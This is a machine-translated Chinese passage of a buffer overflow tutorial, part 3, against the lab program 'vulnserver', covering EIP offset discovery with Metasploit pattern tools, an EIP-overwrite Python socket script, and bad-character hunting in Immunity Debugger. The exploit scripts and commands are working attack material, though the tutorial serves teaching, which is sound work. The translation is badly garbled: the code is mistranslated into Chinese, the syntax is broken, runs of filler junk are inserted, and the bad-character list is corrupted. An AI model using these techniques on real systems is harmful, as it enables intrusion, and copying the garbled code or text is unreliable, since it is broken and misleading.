

# 缓冲区溢出教程(第 3 部分)

> 原文：<https://blog.devgenius.io/buffer-overflow-tutorial-part3-98ab394073e3?source=collection_archive---------3----------------------->

安加德·辛格·www.officialhacker.com

# 5-寻找偏移

在上一节中，我们使用一个 fuzzing 脚本来查找它崩溃的大概字节数。现在，我们需要找到*“EIP”*被覆盖的偏移量，因为这是我们从这一点开始想要控制的。为此，我们需要使用 Metasploit 工具生成一个独特的模式并发送它，而不是发送 *"A"* 字符。然后根据输出，我们可以使用另一个 Metasploit 模块找出偏移量。要生成唯一的模式，请使用以下命令:*(****root @ kali****:~ #/usr/share/metasploit-framework/tools/exploit/pattern _ create . r b-l 2200)。*这里我们将创建一个长度为 2200 字节的随机模式。复制模式并在模糊脚本中使用它们。

在任意编辑工具中打开 *"Fuzzing1.py"* 文件，用偏移图形替换 *"buffer = "A" * 100"* 部分，然后保存。脚本应该是这样的:

— — — — — — — — — — — — — — — — — — — — — — — — — —

*#！/usr/bin/python*

*导入系统，插座*

)( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )(

*try:*

S = socket.socket(socket)AF_INET,socket。SOCK_STREAM(T5)

*s.connect(('10.10.10.4',9999))*

*s.send(('TRUN /。:/' + offset()*

*s.close()*

*except:*

*print "Error connecting to server"* 错误连接到服务器

*sys.exit()*

【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】】【解析】【解析】【解析】【解析】】【解析】【解析】【解析】【解析】】【解析】【解析】】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】

在我们运行 python 脚本之前,我们必须再次设置环境。Once everything is running correctly, execute the script。

***:*** ****【root@kali】**:~#。/Fuzzing1.py)。(T31)****

*执行完 python 脚本后，*“vulnserver”*程序会崩溃，显示被覆盖的*“EIP”*(386 f 4337)的值。把它记在某个地方，因为我们将在下一步中用到它来求偏移量。*

**

*现在，我们将使用另一个 Metasploit 工具来查找我们的偏移量的精确匹配。为此，使用以下具有相同字节长度的命令，并指定我们找到的*“EIP”*值。*

****Ex:****(****root @ kali****:~ #/usr/share/metasploit-framework/tools/exploit/pattern _ offset . r b-l 2200-q 386 f 4337)。**

**

*正如您在上面的截图中看到的，我们设法找到了 2003 字节的偏移量的精确匹配。现在是时候改写*“EIP”了**

# *6-覆盖 EIP*

*在小节中，我们将尝试覆盖*【EIP】*的部分记忆。在前面的例子中，我们发现我们的偏移量正好是 2003 字节。这意味着在我们到达*“EIP”之前有 2003 个字节*“EIP”本身是 4 个字节长的内存部分，在这里我们将尝试覆盖它们。为此，我们需要修改我们的 python 脚本，发送 2003 个*“A”*字符到达*“EIP”*，然后添加 4 个*“B”*字符来覆盖它。保存更改并运行脚本。*

*— — — — — — — — — — — — — — — — — — — — — — — — — —*

**#！/usr/bin/python**

**导入系统，插座**

**shellcode = " A " * 2003+" B " * 4**

**试试:**

**s = socket.socket(socket。AF_INET，socket。**

**s.connect(('10.10.10.4 '，9999))**

**s.send(('TRUN /。:/' + shellcode))**

**s.close()**

**除:**

**打印“连接到服务器时出错”**

**sys.exit()**

**—————**

**

*一旦执行脚本，*“vunserver”*就会崩溃，免疫调试器会因为访问冲突而停止。当您检查调试器的输出时，您会看到 *"EBP"* 将被全部的*" A "*(41414141)填充，而 *"EIP"* 将被全部的*" B "*(42424242)填充。*

**

*这意味着我们现在可以控制内存的*【EIP】*部分，而不是发送一堆*【A】*或*【B】*字符，我们可以发送一个恶意的外壳代码来感染我们的目标计算机，并获得外壳访问权限。*

# *7 —查找不良字符*

*当生成外壳代码时，我们需要知道什么字符对外壳代码是坏的或好的。我们可以通过在我们的程序中运行所有的十六进制字符来检查这一点，看看它们是否有任何不同的显示。在测试它之前，首先，我们需要找到一个*“坏字符”的列表。*打开你最喜欢的浏览器，搜索*“寻找蒙娜丽莎”*点击*“用免疫调试器和 Mona.py 查找不良角色”链接**

**

*这个特殊的网站已经创建了一个包含所有*“坏字符”*的变量，我们可以在 python 脚本中使用它。*

**

*用*【坏字符】*复制变量，粘贴到我们之前用的 python 脚本中。默认情况下，空字节 *"\x00"* 字符起作用，因此我们可以立即将其从变量中移除。建议将 *"bad chars"* 变量放在导致崩溃的字符之后。如果我们以*“坏字符”*开始我们的攻击字符串，我们可能根本不会崩溃。保存脚本，并在从免疫调试器进行监控的同时，针对*“vulnserver”*运行该脚本。*

**

*因此，基本上我们的 python 脚本将逐个运行下面列出的每个字符，我们在这里的工作是检查十六进制转储并记录任何放错位置的字符。*

**(\ x01 \ x02 \ x03 \ x04 \ x05 \ x06 \ x07 \ x08 \ x09 \ x0a \ x0b \ x0c \ x0d \ x0e \ x0f \ X10 \ X11 \ x12 \ x13 \ x14 \ x15 \ x16 \ x17 \ x18 \ x19 \ x1a \ x1b \ x1c \ x1d \ x1e \ x1f \ x20 \ x21 \ x22 \ x23 \ x24 \ x25 \ x26 \ x27 \ x28 \ x18 \ x18**

*要检查 hex 转储，在崩溃发生后，右击*“ESP”、*，并从下拉菜单中选择*“跟随转储”它将转储并显示我们用 python 脚本发送的所有十六进制字符。**

**

*现在我们在堆栈上看到一个更长的*“bad chars”*字符串。走一条简单的路线，低头检查是否有*【xff】*字符，并期望没有其他腐败，这绝非易事。在这个例子中，每个损坏的字节都终止了*“坏字符”*字符串，但情况并非总是如此。有时当你试图建立新的漏洞时，你会遇到单个字符损坏的情况，但是剩余的 *"bad chars"* 字符串可以有效地打印出来。在这种情况下，仔细查看堆栈上的字节，逐个查看 *"bad chars"* 字符串，这是检查不再有坏字符的最佳方式。不幸的是，这是一个非常繁琐的过程，而且很容易出错。*

**

*[缓冲区溢出教程(第一部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part1-efc6b9f3e4ee)*

*[缓冲区溢出教程(第二部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part2-c21c6de5c11c)*

*[缓冲区溢出教程(第三部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part3-98ab394073e3)*

*[缓冲区溢出教程(第四部分)](https://medium.com/dev-genius/buffer-overflow-tutorial-part4-1e80e90a2f03)*